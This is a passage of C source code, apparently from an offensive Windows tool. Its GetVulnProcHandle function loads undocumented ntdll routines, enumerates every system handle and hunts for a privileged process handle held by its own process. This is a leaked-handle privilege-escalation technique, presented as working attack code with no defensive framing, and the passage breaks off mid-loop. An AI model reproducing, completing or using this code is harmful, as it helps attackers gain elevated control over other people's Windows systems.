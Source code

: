 ```c
        CryptDestroyKey(hKey);
        
        return 0;
}


HANDLE GetVulnProcHandle(void) {
    
	ULONG handleInfoSize = 0x10000;
    NTSTATUS status;
    PSYSTEM_HANDLE_INFORMATION phHandleInfo = (PSYSTEM_HANDLE_INFORMATION) malloc(handleInfoSize);
	HANDLE hProc = NULL;
	POBJECT_TYPE_INFORMATION objectTypeInfo;
	PVOID objectNameInfo;
	UNICODE_STRING objectName;
    ULONG returnLength;
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    DWORD dwOwnPID = GetCurrentProcessId();
	
    pNtQuerySystemInformation = GetProcAddress(hNtdll, "NtQuerySystemInformation");
    pNtDuplicateObject = GetProcAddress(hNtdll, "NtDuplicateObject");
    pNtQueryObject = GetProcAddress(hNtdll, "NtQueryObject");
    pRtlEqualUnicodeString = GetProcAddress(hNtdll, "RtlEqualUnicodeString");
    pRtlInitUnicodeString = GetProcAddress(hNtdll, "RtlInitUnicodeString");

    printf("[+] Grabbing handles...");

    while ((status = pNtQuerySystemInformation( SystemHandleInformation, phHandleInfo, handleInfoSize,
											NULL )) == STATUS_INFO_LENGTH_MISMATCH)
        phHandleInfo = (PSYSTEM_HANDLE_INFORMATION) realloc(phHandleInfo, handleInfoSize *= 2);

    if (status != STATUS_SUCCESS)
    {
        printf("[!] NtQuerySystemInformation failed!\n");
        return 0;
    }

    printf("done.\n[+] Fetched %d handles.\n", phHandleInfo->NumberOfHandles);

    // iterate handles until we find the privileged process handle
    for (int i = 0; i < phHandleInfo->NumberOfHandles; ++i)
    {
        SYSTEM_HANDLE_TABLE_ENTRY_INFO handle = phHandleInfo->Handles[i];

        // Check if this handle belongs to our own process
        if (handle.UniqueProcessId != dwOwnPID)
            continue;

        objectTypeInfo = (POBJECT_TYPE_INFORMATION) malloc(0x1000);
        if (pNtQueryObject( (HANDLE) handle.HandleValue,
						ObjectTypeInformation,
						objectTypeInfo,
						0x1000,
						NULL ) != STATUS_SUCCESS)
            continue;

		// skip some objects to avoid getting stuck
		// see: https://github.com/adamdriscoll/PoshInternals/issues/7
        if (handle.GrantedAccess == 0x0012019f
			&& handle.GrantedAccess != 0x00120189
			&& handle.GrantedAccess != 0x120089
			&& handle.GrantedAccess != 0x1A019F ) {
```
